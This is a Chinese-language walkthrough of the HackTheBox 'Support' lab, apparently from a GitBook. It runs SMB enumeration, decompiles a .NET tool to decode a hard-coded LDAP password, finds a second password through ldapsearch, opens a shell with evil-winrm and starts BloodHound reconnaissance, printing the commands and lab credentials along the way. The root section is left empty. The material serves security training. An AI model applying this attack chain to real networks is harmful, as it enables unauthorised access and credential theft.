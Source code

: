```yaml
---
description: Easy / 分析程序文件 / LDAP枚举 /
---
```


# ✔️ Support

## 建立立足点

### 信息收集

* 使用Nmap对目标开放端口进行扫描：

```bash
nmap -sC -sV -p- -oA support 10.129.230.181 --open
```

<figure><img src="../../.gitbook/assets/1 (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/2 (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 先进行SMB匿名登录测试，发现可以登录上去，且有感兴趣的共享文件/support-tools（这种和靶机名称一致的提示还是蛮明显的）：

```bash
smbclient -N -L 10.129.230.181
```

<figure><img src="../../.gitbook/assets/3 (9).png" alt=""><figcaption></figcaption></figure>

* 分别尝试把这些共享文件递归下载到本地，也发现只有/support-tools的可以下载，其他的都拒绝：

```bash
smbclient //10.129.230.181/support-tools
RECURSE ON
PROMPT OFF
mget *
```

<figure><img src="../../.gitbook/assets/4 (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/5 (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/6 (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 下载到Kali本地后，查看发现都是exe文件和一个压缩包文件，名称是UserInfo，猜测可能包含用户信息：

<figure><img src="../../.gitbook/assets/7 (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 解压UserInfo.exe.zip，比较感兴趣的有config文件和exe文件：

<figure><img src="../../.gitbook/assets/8 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* config文件，有.NET框架的版本号信息，其他的好像没什么了：

<figure><img src="../../.gitbook/assets/9 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 没有预期的任何凭证之类的内容，用enum4linux枚举也无任何收获：

```bash
enum4linux 10.129.230.181
```

<figure><img src="../../.gitbook/assets/10 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* smbmap也没有收获：

```bash
smbmap -H 10.129.230.181 -u "" -p ""
```

<figure><img src="../../.gitbook/assets/11 (8).png" alt=""><figcaption></figcaption></figure>

* 尝试RPC空密码连接被拒绝：

```bash
rpcclient 10.129.230.181
```

<figure><img src="../../.gitbook/assets/12 (9).png" alt=""><figcaption></figcaption></figure>

* 回到刚才解压出来的UserInfo.exe，查看其信息：

```bash
file UserInfo.exe
```

<figure><img src="../../.gitbook/assets/13 (9).png" alt=""><figcaption></figcaption></figure>

* 把这个exe文件放入Windows系统中运行试试，这里要把整个解压出来的所有文件都一起放进Windows中，不然会运行不成功：

<figure><img src="../../.gitbook/assets/14 (8).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/15 (8).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/16 (6).png" alt=""><figcaption></figcaption></figure>

* 因为当前没有收集到可以用的用户名，所以直接运行该程序没用：

<figure><img src="../../.gitbook/assets/17 (5).png" alt=""><figcaption></figcaption></figure>

* 把UserInfo.exe放入dnspy中分析其代码：

<figure><img src="../../.gitbook/assets/18 (6).png" alt=""><figcaption></figcaption></figure>

* 在protected目录下的.cctor()中找到编码后的密码：

<figure><img src="../../.gitbook/assets/19 (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* python IDLE终端解码后得到明文密码：'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'

```python
from base64 import b64decode
from itertools import cycle
pass_b64 = b"0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E"
key = b"armando"
enc = b64decode(pass_b64)
[e^k^223 for e,k in zip(enc, cycle(key))]
bytearray([e^k^223 for e,k in zip(enc, cycle(key))]).decode()
```

<figure><img src="../../.gitbook/assets/20 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 使用crackmapexec验证一下凭证是否有用：

```bash
crackmapexec smb support.htb -u ldap -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'
```

<figure><img src="../../.gitbook/assets/21 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### GET SHELL

* 因为该程序的代码中的ldapquery，用的是ldap协议，所以用ldapsearch和当前已获得的有效凭证列举出AD中所有的内容：

<figure><img src="../../.gitbook/assets/23 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
ldapsearch -H  'ldap://10.129.230.181' -D 'ldap@support.htb' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "DC=support,DC=htb"
```

* 输出结构特别多，需要仔细查看才能发现其中的support账户里包含了一个info字段，里面的字符串看上去像是密码（因为其他账户没有info这个字段）：

<figure><img src="../../.gitbook/assets/24 (1) (1).png" alt=""><figcaption></figcaption></figure>

* 尝试使用evil-winrm和这个凭证连接，获取到了shell：

```bash
evil-winrm -i support.htb -u support -p 'Ironside47pleasure40Watchful'
```

<figure><img src="../../.gitbook/assets/25 (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/26 (3).png" alt=""><figcaption></figcaption></figure>

## 权限提升

### 本地信息收集

* 上传winPEAS.exe到目标系统进行信息枚举，没什么特别收获：

<figure><img src="../../.gitbook/assets/27 (3).png" alt=""><figcaption></figcaption></figure>

* 上传sharphound.exe收集信息到bloodhound里进行分析：

<figure><img src="../../.gitbook/assets/28 (3).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/29 (3).png" alt=""><figcaption></figcaption></figure>

* 运行bloodhound把zip包拖进去即可：

<figure><img src="../../.gitbook/assets/30 (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/31 (2).png" alt=""><figcaption></figcaption></figure>



### ROOT





















{% hint style="info" %}
本例虽然是被归类为简单机器，但是涉及到自己的盲区较多，看的提示较多完成度不高，对我来讲算难的机器。
{% endhint %}
